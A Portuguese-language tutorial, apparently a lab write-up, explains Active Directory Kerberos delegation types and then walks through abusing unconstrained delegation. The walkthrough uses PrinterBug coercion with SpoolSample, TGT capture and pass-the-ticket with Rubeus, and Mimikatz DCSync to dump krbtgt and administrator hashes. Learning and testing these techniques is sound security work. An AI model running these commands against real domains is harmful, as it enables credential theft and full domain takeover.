

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⠀⠀⠀⠀⠀ ⢀⠤⠒⠒⠢⢄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠻⢟⣇⠤⠒⠂⠤⡀⠀⢰⠃⠀⠀⣀⠄⠀⢣⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠞⠁⠀⠀⠀⠀⠈⢆⢺⠀⠀⠀⠣⣀⣀⡼⢤⣶⣶⣶⣤⣤⣀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣸⣸⡀⠀⢀⣴⣤⠀⡜⠘⢆⣠⠴⠋⣩⣴⡾⢟⣿⣿⣿⣿⣶⣾⣭⣝⡶⣄⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣤⠀⢸⣿⠃⠀⠀⣠⡼⠣⣤⣿⣿⣛⠤⠛⣿⣿⡿⣻⣿⣟⡿⠿⣿⣘⣿⡀⠀⠀⠀⠀
⠀⠀⠀⠀⢀⣠⣴⣶⣶⣿⣿⣯⣶⣶⣄⣀⠀⠀⠀⠀⠀⠀⠀⠐⠀⠀⢀⠀⠀⠀⠈⢺⣻⣄⠀⠻⣄⣀⣴⣋⢔⢪⡶⠛⠀⢑⣲⢶⣿⣿⠾⠛⢡⠁⠀⠰⢿⣿⣿⡽⡆⠀⠀⠀
⠀⠀⣠⣾⡿⠛⣿⡿⣿⣿⡯⠭⣍⣛⠷⣿⣧⢀⣶⡿⠲⡀⢀⣤⣪⠭⠭⣉⠑⠢⡀⠀⠉⠚⠭⣶⢶⡞⠁⢁⣴⢻⠀⠀⢰⠁⠀⠉⢆⠀⠀⣀⠤⣁⠀⢰⣁⡈⠙⢿⢻⠀⠀⠀
⠠⠊⠉⠉⠁⠈⢉⢼⣿⠏⣴⡄⠀⠈⠙⠯⣿⣷⠁⢀⣷⢡⡾⠋⠐⢀⡀⠈⢳⠀⢱⠀⠀⢠⣾⡟⡏⣇⣴⢟⣡⠼⡀⠀⠀⠁⠀⠀⡸⡰⠉⢀⣆⡤⢷⠼⡟⠋⠀⠸⡼⠀⠀⠀
⠀⠀⠀⠀⠀⢀⡇⢸⠉⠉⠉⠐⣦⣄⠀⠀⠈⢿⣧⡸⣿⢸⠃⠀⠀⠘⠯⠤⠋⣴⡽⠀⠀⠎⠁⣸⣼⢟⠁⠈⠀⠀⡹⠢⢄⣀⡠⠔⠁⡇⠀⠀⡟⠻⡷⣦⠇⠀⠀⢠⢧⠠⣾⣦
⠀⠀⠀⠀⣀⠸⡂⠀⠉⠈⠀⠀⠈⠫⡄⠀⠀⠀⠘⢳⣽⣾⡆⠀⠀⠀⠀⠀⠱⠋⠀⠀⣠⣴⣾⣟⠁⣨⣖⠤⠤⣲⠥⣤⠤⣀⠀⠀⠀⠳⣄⠀⠑⢄⡀⠀⠀⢀⡴⢳⣣⠑⠛⠉
⠀⠀⠀⠈⠿⠛⠣⡀⠀⠀⠀⠀⠀⢠⠃⠀⠀⠀⠀⠀⠈⠿⣟⣦⡀⠑⠦⣴⣶⡾⣶⣿⠟⡏⣾⣿⣦⡤⠜⠀⣼⠁⢀⡿⠀⠀⠱⡄⠀⠀⠈⠓⠲⠤⠬⠟⠛⠉⠀⢺⡟⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⠢⠤⠤⠤⠖⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠛⠛⠶⠞⠒⠛⠉⠀⣾⣷⠋⣿⣿⠟⣁⡠⠎⠢⠤⠝⠀⠀⠀⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⠃⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⠀⠀⠀⠀⠀⠀⠀⢠⡟⠁⠀⢻⡝⡟⣶⣦⣶⣦⣤⠀⠀⠀⢠⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣷⡈⠢⣁⠀⠀⠈⠑⢄⡠⠚⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡀⠀⠀⠀⠀⠀⡠⠊⠉⠁⠂⢼⣵⠀⠀⠉⠁⠂⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠂⡀⠀⠀⠀⠇⠀⠀⠀⠀⢾⢿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠁⠀⠀⠈⠢⢄⣀⡴⡿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
Delegation no contexto do Active Directory refere-se a um mecanismo que permite que uma entidade (usuário, computador ou serviço) atue em nome de outra entidade para acessar recursos na rede. De forma simples, é quando você permite que um serviço ou aplicação “se passe por” um usuário para acessar outros serviços na rede. Olhando para o protocolo Kerberos, que é o mecanismo de autenticação padrão do Active Directory, delegation permite que um serviço receba um ticket autenticação de outro usuário e use esse ticket para acessar outros recursos em nome daquele usuário.
Imagine que uma aplicação web acesse um banco de dado SQL Server back-end:
Sem delegation, o SQL Server veria todas as requisições como vindas de conta de serviço da aplicação web, não conseguindo distinguir entre diferente usuário finais.
Delegation existe para resolver problemas arquiteturais e de segurança em ambientes corporativos com múltiplas camadas de serviços,
sem ela, o Active Directory vira terra de Domain Admin pra tudo, o que é operacionalmente burro e ofensivamente bom (pra quem ataca).
Delegation em Active Directory permite distribuir tarefas administrativas do dia a dia sem precisar conceder privilégios amplos como os de Domain Admin, ela se baseia em ACLs, que definem de forma precisa o que cada usuário ou grupo pode fazer sobre objetos específicos do AD, com isso, o ambiente se torna mais organizado, escalável e alinhado ao princípio do menor privilégio. Também facilita auditorias e deixa mais clara a responsabilidade de cada equipe.
Por outro lado, quando mal configurada, a delegation pode criar administradores “invisíveis” e abrir caminhos discretos para escalada de privilégios.
Delegation é uma necessidade operacional que, quando mal implementada, se transforma em um dos vetores de escalada de privilégio mais silenciosos do ambiente, e vamos mostrar isso mais a baixo.
É o tipo mais antigo e perigoso de delagation, quando habilitado, o serviço pode impersonar o usuário em qualquer serviço de domínio. Não há restrições sobre quais recursos podem ser acessados.
TrustedForDelegation = True no objeto do computador/usuário
Definido no atributo userAccountControl com a flag TRUSTED_FOR_DELEGATION
Foi introduzido no Winddows Server em 2003, permite delegation apenas para serviços específicos (SPNs definidos), Administradores definem explicitamente quais serviços podem ser acessados.
msDS-AllowedToDelegateTo - contém lista de SPNs permitidos
Introduzido no Windows Server 2012, a configuração é feita no recurso de destino, não na origem. Permite que administradores de recursos controlem quem pode delegar para seu serviços.
msDS-AllowedToActOnBehalfOfOtherIdentity - no objeto de destino (ex: SQL Server)
Quando Unconstrained Delegation está habilitado em um servidor (por exemplo, WEBSERVER01), o processo funciona assim:
Quando o usuário se autentica em um serviço com Unconstrained Delegation, uma cópia do TGT (Ticket Granting Ticket) do usuário é incluída no TGS e enviada para o servidor.
O servidor WEBSERVER01 agora possui:
Quando WEBSERVER01 precisa acessar outro recurso (ex: SQLSERVER01) em nome de alice:

Se um atacante compromete um servidor com Unconstrained Delegation, ele pode:
O servidor pode usar esses TGTs para acessar qualquer serviço no domínio, sem limitações.
Domain Controllers sempre têm Unconstrained Delegation habilitada por padrão. Se você comprometer um DC, você tem acesso a todos os TGTs que passarem por ele.
Precisamos buscar objetos de computadores com a propriedade TrustedForDelegation definida como true:
# Encontrar computadores
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation,servicePrincipalName,Description
# Encontrar usuários
Get-ADUser -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation,servicePrincipalName,Description
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
Podemos usar essa cypher para encontrar caminhos de Unconstrained Delegation
MATCH (c {unconstraineddelegation:true}) RETURN c
usuários privilegiados (Domain Admins) raramente se autenticam em servidores web comuns. Você precisa forçar um Domain Controller ou admin a se autenticar no servidor comprometido.
Podemos usar uma técnica chamada de PrinterBug (MS-RPRN Abuse)
Como funciona:
Usando o mode de monitor do Rubeus, precisamos ficar “escutando” em um terminal
.\Rubeus.exe monitor /interval:10 /nowrap
Em outro terminal iremos precisar da ferramenta chamada de SpoolSample
.\SpoolSample.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io
Então no Rubeus conseguimos capturar o ticket
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:
User : DC-2$@DEV.CYBERBOTIC.IO
StartTime : 9/6/2022 9:06:14 AM
EndTime : 9/6/2022 7:06:14 PM
RenewTill : 9/13/2022 9:06:14 AM
Flags : name_canonicalize, pre_authent, renewable, forwarded, forwardable
Base64EncodedTicket :
doIFujaJQdlDLklP...
com o ticket em mãos podemos usar uma técnica chamada (Pass-the-ticket) para se passar por aquele usuário.
Podemos usar o Rubeus para isso:
# Importar TGT capturado para sessão atual
Rubeus.exe ptt /ticket:base64ticket
# Verificar tickets importados
klist
# Agora você pode usar comandos como se fosse o usuário
dir \\dc-2.dev.cyberbotic.io\C$
Enter-PSSession -ComputerName dc-2.dev.cyberbotic.io
Depois capturar o TGT de uma conta privilegiada ( DA ou DC machine account) você pode realizar o ataque de DCSync:
Usando o Mimikatz:
# Dumpar hash do krbtgt (permite criar Golden Tickets)
lsadump::dcsync /domain:domain.local /user:krbtgt
# Dumpar hash de qualquer usuário
lsadump::dcsync /domain:domain.local /user:administrator